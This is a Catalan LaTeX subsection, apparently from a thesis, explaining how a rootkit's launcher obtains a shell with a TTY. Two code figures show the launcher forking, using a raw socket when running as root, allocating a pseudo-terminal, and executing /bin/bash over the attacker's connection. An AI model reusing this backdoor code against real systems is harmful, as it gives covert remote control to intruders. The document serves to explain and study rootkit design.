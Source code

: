 \subsection{Obtenció d'una shell i un TTY}

Per a l'obtenció d'una shell lligada a un tty, només ens cal tenir disponible una shell en el sistema. En aquest cas, just després
d'establir la connexió, el launcher fa un fork per tal de poder gestionar amb un procés exclusiu la connexió i la shell. Això ho podem veure a la figura \ref{fig:launcher_do_action} just abans de la crida ``launcher\_shell''. Podem veure en aquesta mateixa figura que depenent de l'usuari que executi el codi, el rootkit utilitzarà un raw socket o no. Aquest detall s'explica en detall més endabant. (REFERENCIA)

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYay[case] SHELL:
    debug(@PYaB["]@PYaB[Launching shell]@PYao[\n]@PYaB["]);
    @PYay[if] (@PYbe[!]getuid()) {
        debug(@PYaB["]@PYaB[Starting DirectRAW service]@PYao[\n]@PYaB["]);
        r @PYbe[=] create_rawsock_session(rawsocks, ip@PYbe[-]@PYbe[>]s_addr, sport, d@PYbe[-]@PYbe[>]port);
        @PYay[if] (fork()) @PYay[return];
        launcher_shell(r@PYbe[-]@PYbe[>]r@PYZlb[]@PYag[0]@PYZrb[], r@PYbe[-]@PYbe[>]w@PYZlb[]@PYag[1]@PYZrb[]);
        destroy_rawsock_session(r);
    } @PYay[else] {
        @PYay[if] (fork()) @PYay[return];
        launcher_shell(sock, sock);
        close(sock);
    }
    @PYay[break];
\end{Verbatim}
\caption{launcher.c::do\_action()}
\label{fig:launcher_do_action}
\end{figure}

Un cop tenim
el procés que gestiona la nostre connexió, aquest obre el tty, lliga els seus descriptors de fitxer amb el tty, i executa la shell tal i com veiem a la figura \ref{fig:launcher_launcher_shell}.

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
pty @PYbe[=] open(@PYaB["]@PYaB[/dev/ptmx]@PYaB["], O_RDWR);
grantpt(pty);
unlockpt(pty);
tty @PYbe[=] open(ptsname(pty), O_RDWR);
@PYay[if](@PYbe[!](subshell @PYbe[=] fork())) {
    @PYay[if] (fork() @PYbe[!]@PYbe[=] @PYag[0]) exit(@PYag[0]);
    close(pty);
    close(sock);
    @PYaE[// new session to be used with bash]
    setsid();
    ioctl(tty, TIOCSCTTY, @PYaX[NULL]);
    @PYaE[// start using the new tty]
    dup2(tty, @PYag[0]);
    dup2(tty, @PYag[1]);
    dup2(tty, @PYag[2]);
    close(tty);
    @PYay[if] (getuid()) chdir(@PYaB["]@PYaB[/var/tmp]@PYaB["]);
    @PYay[else] chdir(HOME);
    execve(@PYaB["]@PYaB[/bin/bash]@PYaB["], argv_bash, envp);
\end{Verbatim}
\caption{launcher.c::launcher\_shell()}
\label{fig:launcher_launcher_shell}
\end{figure}

